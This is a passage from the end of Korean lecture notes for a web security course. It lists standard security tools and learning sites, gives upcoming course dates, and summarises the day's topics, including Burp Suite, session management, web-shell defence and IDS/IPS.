3. **리포트 작성**: AI에게 설명 요청, 한글로 정리
4. **지속적 학습**: 새로운 취약점 트렌드 파악


## 📚 참고 자료

### 추천 도구

| 도구 | URL | 용도 |
|:---|:---|:---|
| OWASP ZAP | https://www.zaproxy.org/ | 웹 취약점 스캔 |
| Burp Suite Community | https://portswigger.net/burp/communitydownload | 웹 프록시 |
| Nmap | https://nmap.org/ | 포트 스캔 |
| SQL Map | https://sqlmap.org/ | SQL Injection |
| Metasploit | https://www.metasploit.com/ | 익스플로잇 프레임워크 |

### 학습 자료

- OWASP Top 10: https://owasp.org/www-project-top-ten/
- PortSwigger Web Security Academy: https://portswigger.net/web-security
- HackTheBox: https://www.hackthebox.com/
- TryHackMe: https://tryhackme.com/


**강의 완료**: 2025년 12월 23일
**다음 강의**: 2025년 12월 29일 (월요일) - 2차 사업평가 + 웹 서버 보안
**미니 프로젝트**: 2025년 12월 30일 (화요일) - 1월 6일 (화요일)


## 🎓 최종 정리

**오늘 배운 핵심:**
1. **Burp Suite**: 웹 해킹의 스위스 아미 나이프
2. **세션 관리**: 웹 애플리케이션의 상태 유지
3. **파일 업로드 보안**: MD5 해시로 웹쉘 방어
4. **웹 스캐너**: OWASP ZAP으로 자동 취약점 탐지
5. **네트워크 스캔**: 포트와 OS 정보 수집
6. **SNS 보안**: 소셜 엔지니어링의 위험성
7. **IDS/IPS**: 네트워크 보안 아키텍처

**기억해야 할 것:**
- 이론을 이해하고, AI에게 구현을 맡기고, 결과를 검증하라
- 자동화 도구를 적극 활용하되, 원리를 이해하라
- 보안은 완벽함보다 지속적인 개선이 중요하다

**다음 주 기대:**
- 더 많은 실전 도구 (14기 강의 자료)
- 웹 서버 보안 (Nginx, Apache)
- 모듈 프로젝트 시작


**작성자**: Claude Sonnet 4.5
**작성 목적**: STT 기반 강의 노트 (Day 2)
**분량**: Section 1~4 통합 시 약 1800줄 예상